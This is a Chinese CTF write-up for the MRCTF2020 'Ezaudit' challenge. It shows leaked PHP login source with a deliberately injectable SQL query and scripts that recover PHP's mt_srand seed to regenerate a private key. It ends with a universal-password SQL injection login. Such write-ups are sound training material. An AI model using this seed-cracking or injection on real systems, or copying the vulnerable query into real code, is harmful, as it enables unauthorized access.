




# [MRCTF2020]Ezaudit

## 知识点

`源码泄露`

`mt_srand seed爆破`

`万能密码`

## 解题


### 源码泄露

找到`robots.txt`和`www.zip`，下载后可以查看到源码，但是`robots.txt`给的路径没啥信息

`www.zip`解压后有`index.php`

```php
<?php 
header('Content-type:text/html; charset=utf-8');
error_reporting(0);
if(isset($_POST['login'])){
    $username = $_POST['username'];
    $password = $_POST['password'];
    $Private_key = $_POST['Private_key'];
    if (($username == '') || ($password == '') ||($Private_key == '')) {
        // 若为空,视为未填写,提示错误,并3秒后返回登录界面
        header('refresh:2; url=login.html');
        echo "用户名、密码、密钥不能为空啦,crispr会让你在2秒后跳转到登录界面的!";
        exit;
}
    else if($Private_key != '*************' )
    {
        header('refresh:2; url=login.html');
        echo "假密钥，咋会让你登录?crispr会让你在2秒后跳转到登录界面的!";
        exit;
    }

    else{
        if($Private_key === '************'){
        $getuser = "SELECT flag FROM user WHERE username= 'crispr' AND password = '$password'".';'; 
        $link=mysql_connect("localhost","root","root");
        mysql_select_db("test",$link);
        $result = mysql_query($getuser);
        while($row=mysql_fetch_assoc($result)){
            echo "<tr><td>".$row["username"]."</td><td>".$row["flag"]."</td><td>";
        }
    }
    }

} 
// genarate public_key 
function public_key($length = 16) {
    $strings1 = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
    $public_key = '';
    for ( $i = 0; $i < $length; $i++ )
    $public_key .= substr($strings1, mt_rand(0, strlen($strings1) - 1), 1);
    return $public_key;
  }

  //genarate private_key
  function private_key($length = 12) {
    $strings2 = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
    $private_key = '';
    for ( $i = 0; $i < $length; $i++ )
    $private_key .= substr($strings2, mt_rand(0, strlen($strings2) - 1), 1);
    return $private_key;
  }
  $Public_key = public_key();
  //$Public_key = KVQP0LdJKRaV3n9D  how to get crispr's private_key???
```

### 计算seed

发现可以通过已知条件计算`seed ` [python计算代码]('./Scripts/mt_seed.py')

```python
str1 = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
str2 = 'KVQP0LdJKRaV3n9D'     # 因本题生成是从后往前，需要反转
str3 = str1[::-1]
res = ''
for i in range(len(str2)):  
    for j in range(len(str1)):
        if str2[i] == str1[j]:
            res+=str(j) + ' ' + str(j) + ' ' + '0' + ' ' + str(len(str1)-1) + ' '
            break
print(res)
```

然后通过`php_mt_seed`计算





然后重新编写代码生成对应

```php
<?php 
mt_srand(1775196155);
// genarate public_key 
function public_key($length = 16) {
    $strings1 = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
    $public_key = '';
    for ( $i = 0; $i < $length; $i++ )
    $public_key .= substr($strings1, mt_rand(0, strlen($strings1) - 1), 1);
    return $public_key;
  }

  //genarate private_key
  function private_key($length = 12) {
    $strings2 = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
    $private_key = '';
    for ( $i = 0; $i < $length; $i++ )
    $private_key .= substr($strings2, mt_rand(0, strlen($strings2) - 1), 1);
    return $private_key;
  }
  
  // KVQP0LdJKRaV3n9D
  echo public_key() . "\n";
  echo private_key();
```

> 记得使用`php_mt_seed`提示的php版本
>
> `seed = 0x69cf57fb = 1775196155 (PHP 5.2.1 to 7.0.x; HHVM)`


公钥可以对应即可

### 万能密码登录

在源码看到`login.html`，进入，找到登录页面，使用万能密码加私钥即可获取`flag`



